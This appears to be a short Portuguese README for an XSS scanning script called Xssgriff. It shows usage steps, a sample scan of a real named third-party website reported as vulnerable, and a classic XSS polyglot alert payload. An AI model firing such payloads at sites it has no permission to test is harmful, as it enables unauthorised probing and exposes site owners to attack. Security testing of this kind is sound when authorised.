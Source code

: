 Xssgriff, script para analizar vulnerabilidade em XSS.

Modo de uso:
python xss.py 
url : teste.com.br/page?parameter=

Digite a url:
URL: http://www.koinonia.org.br/tpdigital/detalhes.asp?cod_artigo=161&cod_boletim=9&tipo=
Lembrando com parametro! 
e o resultado sera 
http://www.koinonia.org.br/tpdigital/detalhes.asp?cod_artigo=161&cod_boletim=9&tipo=
Vulneravel: ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

Realiza o teste! 
Obrigado

Ao final, mostrando os payloads vulneraveis.

https://www.facebook.com/JRPENTESTER
https://www.linkedin.com/in/ataide-junior-050231b0/
@atjuniior
